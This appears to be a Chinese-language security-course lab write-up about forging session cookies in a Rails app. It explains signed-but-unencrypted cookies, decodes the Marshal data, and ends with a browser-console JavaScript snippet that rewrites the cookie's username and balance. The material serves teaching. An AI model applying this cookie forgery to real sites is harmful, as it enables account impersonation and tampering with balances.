 使用 `rails c` 打开 ruby 终端，查看 secret  相关配置：

![image-20220505150405368](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505150405368.png)

![image-20220505150418371](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505150418371.png)

secret_key_base 为 nil，没有对 cookie 进行加密，而是直接附加了一个签名。

这种情况下，cookie 经过 base64 编码后，连接一个 HMAC.sha1 签名形成了 cookie。

在命令行中查看分离 cookie 和 签名：

![image-20220505152409814](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505152409814.png)

使用 OpenSSL SHA1 算法计算签名，密钥为 secret_token。

![image-20220505152511359](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505152511359.png)

发现与分离出的签名一致，也验证了理论的正确性。

使用 base64 解码查看 cookie 的内容：

![image-20220505152718766](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505152718766.png)

这是一个 ruby 对象字节流，通过 Marshal 可以在字节流和 ruby 对象之间转换。比如：

![image-20220505153601565](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505153601565.png)

可以将 cookie 字节流转换为 ruby 哈希对象。

> cookie 中保存哪些内容?

查看源码，cookie 保存了 session_id，用户登录时的生成的 token，用户 id 和 stolen_cookie，stolen_cookie 是上一步攻击产生的内容。

> 应用如何验证用户身份？

查看 application_controller.rb 可以发现：

```ruby
  def load_logged_in_user
    @logged_in_user = User.find_by_id(session[:logged_in_id])
    if not session[:token]
      session[:token] = SecureRandom.urlsafe_base64
    end
  end
```

登录用户是由 session 的 logged_in_id 字段决定的，也就是说，可以通过伪造 logged_in_id 字段来伪造用户。

 ### 攻击原理

**spring 2022 版**

那么，只需要修改 cookie 中的 username 字段和 bitbars 字段即可。

```js
(function() {
	function getCookie(key) {
  const value = "; " + document.cookie;
  const parts = value.split("; " + key + "=");
	  if (parts.length == 2) return parts.pop().split(";").shift();
	};
	let session_str = getCookie('session')
	let session= JSON.parse(atob(session_str));
	session.account.username = "user1";
	session.account.bitbars = 200;
	// Overwrite the "session" cookie.
	document.cookie = "session=" + btoa(JSON.stringify(session));
})();
clear();
```